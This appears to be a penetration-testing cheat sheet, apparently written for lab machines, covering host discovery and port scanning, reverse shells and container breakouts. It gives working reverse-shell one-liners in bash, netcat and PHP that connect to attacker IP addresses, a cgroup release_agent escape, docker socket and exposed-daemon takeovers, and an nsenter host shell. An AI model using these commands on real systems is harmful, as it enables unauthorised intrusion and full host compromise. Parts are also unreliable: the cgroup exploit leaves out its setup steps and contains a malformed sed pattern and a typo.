 # Reconnaissance

## Passive

## Active

### Host discovery

#### Host discovery via ARP Scan

Scan hosts in local subnet:

##### Use arp-scan

arp-scan -l

arp-scan -l -I eth0

##### Use nmap

nmap -sn -PR <targets>

#### Host discovery via ICMP scan

##### ICMP Ping scan (ICMP Type8/0):

nmap -sn -PE <targets>

##### ICMP Timestamp (ICMP Type 13/14):

nmap -sn -PP <targets>

##### ICMP Address Mask (ICMP Type 17/18):

nmap -sn -PM <targets>

#### Host discovery via TCP/UDP

##### TCP SYN ping (<ports> optional; port 80 by default):

nmap -sn -PS<ports> <targets>

##### TCP ACK ping (<ports> optional; port 80 by default, needs root priv):

nmap -sn -PA<ports> <targets>

##### UDP ping

nmap -sn -PU <targets>

##### masscan

To use masscan as host discovery we limit ports with `-p`:

masscan -p<port> <targets>

#### Host discovery via Reverse-DNS Lookup

Query DNS server even for offline hosts:

nmap -sn -R <targets>

### Port scan

#### TCP SYN scan

Scan 100 most common ports in random order:
nmap -sS -F <target>

Scan 1000 most common ports in random order:
nmap -sS <target>

Scan all ports in random order:
nmap -sS -p- <target>

Scan 100 most common ports in paranoid mode:
namp -sS -F -T0 <target>

#### UDP scan

Scan 100 most common ports in random order:
nmap -sU -F <target>

# Reverse shell

## Bash reverse shell

The simplest method is to use bash, which is available on almost all Linux machines. This script was tested on Ubuntu 18.04, but not all versions of bash support this function:

/bin/bash -i >& /dev/tcp/10.10.205.203/9999 0>&1

or

$ exec 5<>/dev/tcp/10.10.205.203/9999
$ cat <&5 | while read line; do $line 2>&5 >&5; done

## Netcat reverse shell

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.205.203 1234 >/tmp/f

## PHP reverse shell

If the target machine is a web server that supports PHP, this language will be an excellent choice for a reverse shell:

php -r '$sock=fsockopen("10.10.17.1",1337);exec("/bin/sh -i <&3 >&3 2>&3");'

If this does not work, you can try replacing &3 with consecutive file descriptors.


## Stablize remote shell

If you would like to "stabilize your shell" for easier ability in typing commands, you can use the usual upgrade trick (assuming you are running in a bash shell. If you are running within zsh, you will need to have started your netcat listener within a bash subshell... it should be easy enough to re-exploit):


(on the reverse shell) python3 -c "import pty; pty.spawn('/bin/bash')"

(press on your keyboard) Ctrl+Z

(press on your keyboard) Enter

(on your local host) stty raw -echo

(on your local host) fg (you will not see your keystrokes -- trust yourself and hit Enter)

(press on your keyboard) Enter

(press on your keyboard) Enter

(on the reverse shell) export TERM=xterm

You now have a stable shell, where you can safely use the left-and-right arrow keys to move around your input, up-and-down arrow keys to revisit command history, Tab for autocomplete and safely Ctrl+C to stop running programs!

# Priv escalation

## Check sudo

sudo -l

## Privlidged container escape


### Exploit privlidged capabilities


1. capsh --print
Check capabilities first

2.
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /exploit
echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
chmod a+x /exploit
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

Note: We can place whatever we like in the /exploit file (step 5). This could be, for example, a reverse shell to our attack machine.

### Exploiting docker socket

1. ls -la /var/run | grep sock
srw-rw---- 1 root docker 0 Dec 9 19:37 docker.sock

confirm you can run docker commands (be root in container or be in docker group as a lower-privileged user)
 
2. docker run -v /:/mnt --rm -it alpine chroot /mnt sh

### Exposed Docker port 2375

1. curl http://10.10.85.243:2375/version

2. docker -H tcp://10.10.85.243:2375 ps

Now that we've confirmed that we can execute docker commands on our target, we can do all sorts of things. For example, start containers, stop containers, delete them, or export the contents of the containers for us to analyse further.

### Namespace abuse

For this vulnerability, we will be using nsenter (namespace enter). This command allows us to execute or start processes, and place them within the same namespace as another process. In this case, we will be abusing the fact that the container can see the "/sbin/init" process on the host, meaning that we can launch new commands such as a bash shell on the host. 

Use the following exploit: nsenter --target 1 --mount --uts --ipc --net /bin/bash
